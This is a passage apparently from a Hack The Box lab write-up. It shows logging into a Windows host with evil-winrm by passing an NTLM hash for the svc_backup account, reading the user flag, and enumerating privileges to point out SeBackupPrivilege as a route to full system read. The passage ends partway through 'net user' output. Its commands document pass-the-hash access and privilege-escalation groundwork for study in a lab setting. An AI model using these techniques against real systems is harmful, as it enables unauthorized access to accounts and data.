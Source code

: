 
    root@kali# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_backup\Documents> 



From here, I can grab `user.txt`:



    *Evil-WinRM* PS C:\Users\svc_backup\desktop> cat user.txt
    0b81b5d1************************



## Priv: svc_backup --\> administrator

### Enumeration

If the account name didn't give it away, checking `whoami /priv` shows
that this account has a really powerful privilege:



    *Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeBackupPrivilege             Back up files and directories  Enabled
    SeRestorePrivilege            Restore files and directories  Enabled
    SeShutdownPrivilege           Shut down the system           Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled



`SeBackUpPrivilege` basically allows for full system read. I showed this
two weeks ago in
[Multimaster](/htb-multimaster.md#read-as-system). This is
because svc_backup is in the Backup Operators group:



    *Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
    User name                    svc_backup
    Full Name
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
